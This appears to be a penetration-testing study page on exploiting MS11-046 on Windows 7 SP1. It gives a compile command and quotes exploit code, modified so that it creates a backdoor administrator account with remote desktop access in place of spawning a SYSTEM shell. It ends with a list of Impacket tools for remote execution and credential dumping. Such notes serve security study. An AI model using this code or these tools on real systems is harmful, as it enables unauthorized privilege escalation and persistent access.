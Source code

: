 Microsoft Windows \[Version 6.1.7601] (i.e. Win 7 SP1)

[https://www.exploit-db.com/exploits/40564/](https://www.exploit-db.com/exploits/40564/) (MS11-046)

```
i686-w64-mingw32-gcc 40564.c -lws2_32 -o 40564.exe 
```

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Original code:

```c
// spawn shell (with elevated privileges)
    printf("         [*] Spawning shell\n");
    // spawn SYSTEM shell within the current shell (remote shell friendly)
    system ("c:\\windows\\system32\\cmd.exe /K cd c:\\windows\\system32");
```

Modified code to add admin user:

```c
    // create admin account (with elevated privileges)
    printf("         [*] Creating Admin Account (offsec/password)\n");
    system ("c:\\windows\\system32\\cmd.exe /K net user offsec password /add");
    system ("c:\\windows\\system32\\cmd.exe /K net localgroup administrators offsec /add");
    system ("c:\\windows\\system32\\cmd.exe /K net localgroup \"remote desktop users\" offsec /add");
```

### Using Impacket to remotely control/exploit windows

Impacket contains several tools for remote service execution, Kerberos manipulation, Windows credential dumping, packet sniffing.

* **Remote code Execution :** atexec.py, dcomexec.py, psexec.py, smbexec.py and wmiexec.py
* **SMB/MSRPC :** getArch.py, ifmap.py, lookupsid.py, samrdump.py, services.py, netview.py, smbclient.py, opdump.py, rpcdump.py and reg.py
* **Kerberos:** GetST.py, GetPac.py, GetUserSPNs.py, GetNPUsers.py, ticketer.py and raiseChild.py
* **Windows Secret:** mimikatz.py
* **Server Tools/MiTM Attacks:** karmaSMB.py and smbserver.py
* **WMI:** wmipersist.py
* **Known Vulnerabilities:** sambaPipe.py and sambaPipe.py
* **MSSQL / TDS:** mssqlclient.py
* **File Formats:** ntfs-read.py and registry-read.py.
* **Others:** mqtt\_check.py, rdp\_check.py, sniffer.py, ping.py, and ping6.py
